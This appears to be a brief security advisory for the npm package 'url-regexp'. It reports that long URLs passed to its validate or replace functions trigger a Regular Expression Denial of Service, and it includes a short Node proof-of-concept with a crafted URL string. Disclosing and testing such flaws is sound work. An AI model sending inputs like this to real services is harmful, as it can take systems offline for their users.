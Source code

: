 # Overview

RegExp object to match and validate URL(s).

Affected versions of this package are vulnerable to Regular Expression Denial of Service (ReDoS). An attacker providing a long URL to `validate` or `replace` function will cause a Denial of Service attack.

# PoC

```node
var regex = require("url-regexp");
regex.validate(
  "http://huntr.dev.test21312312.test21312312.test21312312.test21312312.test21312312.test21312312.test21312312.test21312312.test21312312.test21312312.test21312312.test21312312.test21312312.test21312312"
);
```
